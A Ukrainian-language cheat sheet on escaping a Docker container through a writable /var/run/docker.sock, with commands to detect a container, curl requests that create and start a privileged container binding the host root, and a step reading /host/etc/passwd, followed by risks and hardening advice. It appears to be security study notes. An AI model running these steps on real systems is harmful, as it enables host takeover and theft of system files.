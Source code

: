 # Docker Socket Escape — Practical Notes

## 🔎 Як зрозуміти, що ми в контейнері Docker
Є кілька простих перевірок:

```bash
# 1. Перевірка cgroups
cat /proc/1/cgroup

# Якщо у виводі є "docker", "kubepods", "containerd" — ми у контейнері.

# 2. Спецфайл Docker
ls -la /.dockerenv

# Якщо існує — це Docker-контейнер.

# 3. Hostname
hostname
# Часто це випадковий hash-подібний ID (як у docker ps).
```

---

## ⚠️ Docker Socket Escape

### Що таке `/var/run/docker.sock`?
Це UNIX-сокет, через який Docker-клієнт спілкується з Docker-демоном (`dockerd`) на хості.  
- Якщо контейнер має доступ для **читання/запису** до цього сокета, то процес усередині контейнера може виконувати будь-які дії з Docker від імені root на хості.  
- Це означає **повний контроль над хостом**.

---

## 🛠️ Експлуатація через Docker API

1. **Перегляд наявних образів**
```bash
curl --unix-socket /var/run/docker.sock http://localhost/images/json
```

2. **Створення нового контейнера з доступом до файлової системи хоста**
```bash
curl -X POST --unix-socket /var/run/docker.sock   -H "Content-Type: application/json"   -d '{
    "Image": "php:8.1-cli",
    "Cmd": ["/bin/sh"],
    "Tty": true,
    "HostConfig": {
      "Privileged": true,
      "Binds": ["/:/host"]
    }
  }'   http://localhost/containers/create
```

3. **Запуск контейнера**
```bash
curl -X POST --unix-socket /var/run/docker.sock   http://localhost/containers/<ID>/start
```

4. **Отримання доступу до хостової файлової системи**
```bash
docker exec -it <ID> sh
ls -la /host
cat /host/etc/passwd
```

---

## 🔐 Ризики
- Повний **escape з контейнера на хост**.  
- Можливість читати/писати файли хоста.  
- Ескалація до root на хості.  

---

## ✅ Як захиститися
- Ніколи не монтувати `/var/run/docker.sock` у контейнери.  
- Використовувати `docker-socket-proxy`, якщо потрібен доступ до API.  
- Мінімізувати capabilities контейнерів (не запускати з `--privileged`).  
- Використовувати AppArmor/SELinux профілі.  

---

## 📌 Висновок
Доступний для запису `/var/run/docker.sock` = **повний контроль над хостом**.  
Це одна з найкритичніших помилок у безпеці Docker.
